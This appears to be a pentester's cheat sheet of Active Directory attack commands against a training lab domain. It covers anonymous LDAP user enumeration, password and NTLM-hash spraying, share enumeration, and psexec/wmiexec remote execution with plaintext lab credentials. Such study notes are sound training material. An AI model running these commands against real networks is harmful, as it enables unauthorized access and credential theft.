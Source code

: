 # ldap
- tools include windapsearch.py, ldapsearch, ad-ldapdomaindump.py
## anonymous binds
## windapsearch
```bash
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```
## ldapsearch
```bash
# pwd len
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```
```bash
# anonymous bind get users
ldapsearch -H ldap://172.16.5.5 -x -b "DC=inlanefreight,DC=local" '(objectClass=User)' "sAMAccountName" | grep sAMAccountName
```
- -x (anonymous)
- -H ldap://<ip or hostname>
- -b DC=inlanefreight,DC=local
- uncredentialed scan for objects that do not require a password
```bash
 ldapsearch -x -H ldap://inlanefreight.local -b "dc=inlanefreight,dc=local"     
 "(!(userPassword=*))"
```
## powerview
```bash
Get-DomainPolicy
# password spraying
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
# ADMIN hash spraying
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
## password spray windows
[https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

# credentialed enumeration from linux
```bash
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5
smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only
queryuser 0x457
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
```